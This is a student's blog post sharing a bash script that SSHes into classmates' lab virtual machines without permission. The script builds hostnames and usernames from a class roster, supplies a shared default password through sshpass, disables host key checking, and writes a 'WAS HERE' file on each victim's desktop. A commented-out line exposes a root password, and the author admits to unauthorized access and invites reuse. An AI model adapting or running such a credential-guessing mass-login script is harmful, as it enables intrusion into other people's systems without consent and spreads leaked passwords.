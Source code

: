 ```yaml
---
title: "Bash Scripting - Mass VM SSH Connections for Fun and Giggles"
date: 2023-11-14T11:27:08-08:00
tags: ["bash", "shell", "script", "SSH"]
toc: true
description: "Is it illegal if it's fun, harmless, and educational? (Don't answer that)"
draft: false
---
```


## Introduction

I am currently finishing my last semester of university. My final
computer science elective I am taking is Linux Administration.
It is a fairly easy and straightforward class, but the reason I am taking
this class is to learn more about the Linux Operating System, specifically
when it comes to system administration.

One of the topics I wanted to learn about is bash scripting. I have seen many
bash scripts online, but I have never taken the time to learn how to read or
write them. We did have two lectures about bash scripting with their own lab,
which is great, but I wanted more experience with bash scripts.

Halfway through the semester, we transition into the virtual machine portion
of the class, where we get to be sysadmins of our own virtual Linux
distributions. Most of the students, including me, use the school computers,
which are connected together in the same network. You can also SSH from the
school computer into your virtual machine if you set the connection type to
bridge. Because of this, I can SSH not only into my virtual machine, *but also
other students' machines*. A mischevious idea brewed in my head that night.

After one long coding session late at night, and a couple rewrites and
modifications, I finally had an automated shell script that will SSH into
**every** students' virtual machine and place a text file on their desktop --
a signature from me proclaiming the time and date I "hacked" into their system.

## The Bash Script

Here is the bash script:

```bash
#!/bin/bash

# The purpose of this script is to ssh into VMs on the network and place a harmless text file on their desktop

OS=$2

show_help() {
        echo "Usage: sshtxtmsg [file] [operating-system]"
        echo "  File must be formated: Last,First"
        echo "  Must have 'sshpass' installed!"
}

ssh() {
        LNAME=`echo $1 | egrep -o '^[[:alpha:]]*'`
        #echo "$LNAME"
        FNAME=`echo $1 | egrep -o '[[:alpha:]]*$'`
        #echo "$FNAME"
        THREEF=`echo $FNAME | egrep -o '^[[:alpha:]]{1,3}'`
        #echo "$THREEF"
        THREEL=`echo $LNAME | egrep -o '^[[:alpha:]]{1,3}'`
        #echo "$THREEL"
        HNAME="${OS}-${THREEF}${THREEL}"
        #echo "$HNAME"
        USERNAME=`echo $FNAME | tr [:upper:] [:lower:]`
        #echo "$USERNAME"
        COMMAND="${USERNAME}@${HNAME}"
        #CMD='sshpass -p MP2650 ssh -o StrictHostKeyChecking=no -q -l root $HNAME "echo "EVNMRK WAS HERE ON " > ~/Desktop/EVNMRK-WAS-HERE.txt; date >> ~/Desktop/EVNMRK-WAS-HERE.txt"'
        CMD='sshpass -p cmps2650 ssh -o StrictHostKeyChecking=no -q -l $USERNAME $HNAME "echo "EVNMRK WAS HERE ON " > ~/Desktop/EVNMRK-WAS-HERE.txt; date >> ~/Desktop/EVNMRK-WAS-HERE.txt"'
        #CMD1="echo '$COMMAND'"
        eval "$CMD"
        if [ $? -eq 0 ]; then
                echo "SUCCESS for $COMMAND - $1"
        elif [ $? -eq 1 ]; then
                echo "FAILURE for $COMMAND"
        else
                echo "UNKNOWN ERROR"
        fi
}

# MAIN

if [ $# -lt 2 ]; then
        show_help
        exit 1
fi
for name in `cat $1`; do
        ssh "$name"
done
```

### Usage

```bash
Usage: sshtxtmsg [file] [operating-system]
	File must be formated: Last,First
	Must have 'sshpass' installed!
```

### How It Works

The script requires a text file with every students' name in the format of
"Last,First" as the first argument. Each name is separated by a newline.
The script also requires the name of the operating system you are connecting
to as the second argument. The reason for this is because of how we set up the
virtual machines as a class. The instructor had us follow instructions on how
to set up our virtual machines. Part of this instructions is what to put for
the hostname, username, password, and root password. These fields are
determined by the students' first and last name, which is why we need the
student roster. The hostname field has the operating system's name inside, too.

- Example Debian hostname for student "Dale Cooper"
	- `debian-dalcoo`
- Example username
	- `dale`
- Example ssh command
	- `ssh dale@debian-dalcoo`

Using regex, we can splice the first and last name to create a username and
hostname. But we run into a problem: `ssh` cannot be automated, since it
queries for a password. To solve this, we use the very unsecure `sshpass`,
which can hold the password in a flag. The password of the user is the same for
everyone: the classname. We also add the `StrictHostKeyChecking=no` flag to
ignore asking to remember the ssh fingerprint for 100% automation. Here is
that command:

`sshpass -p cmps2650 ssh -o StrictHostKeyChecking=no -q -l $USERNAME $HNAME`

We can append the commands to run once a connection is made to the end of the
sshpass command. We just run an echo command for our text and redirect it into
a new textfile. Then we append the datetime the same way.

`"EVNMRK WAS HERE ON " > ~/Desktop/EVNMRK-WAS-HERE.txt; date >> ~/Desktop/EVNMRK-WAS-HERE.txt"`

The script will do the previous commands for every student entry, outputting 
a success or failure.

### Known Issues

This script will not work for users who choose their own unique hostname,
username, or password. It will also not work for users who install their
virtual machine on their own laptop. Basically it doesn't work on students
who are lazy, cannot RTFM, or are mavericks.

## Conclusion

Out of the many times I ran this script, I only had three successful
connections.

I also have a version of this script that will run in an infinite loop,
but let's not get into any trouble with that...

Use this script however you like, feel free to modify for your own use.
